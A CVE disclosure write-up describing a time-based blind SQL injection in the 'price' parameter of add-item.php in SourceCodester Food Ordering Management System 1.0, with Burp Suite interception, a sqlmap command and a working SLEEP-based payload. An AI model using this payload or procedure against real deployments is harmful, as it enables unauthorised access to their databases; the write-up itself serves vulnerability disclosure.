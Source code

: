 ```yaml
---
title: CVE-2024-6214
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-item)
## CVE-2024-6214
> A vulnerability was found in SourceCodester Food Ordering Management System 1.0. It has been declared as critical. This vulnerability affects unknown code of the file add-item.php. The manipulation of the argument price leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-269278 is the identifier assigned to this vulnerability.

**Affected Project**: Sourcecodester Food Ordering Management System 1.0

**Official Website**: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

**Version**: 1.0

**Related Code file**: /router/add-item.php

**Injection parameter**: price


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the admin-page.php. By clicking on **Add**, we can access add-item.php.

`http://172.16.76.1/foms/admin-page.php`

![image](https://github.com/jadu101/CVE/assets/76433661/607b0700-4d8f-4861-a3bc-1f43574e3f25)

We will first intercept the add-item traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/2f15e133-4b3c-4361-9b13-a5558c746485)

Save the intercepted add-item request to a .txt file and execute sqlmap towards it. 

parameter price is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-item.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/2d2940ac-b925-4994-9bb9-89a897dc9c05)

```
---
Parameter: price (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
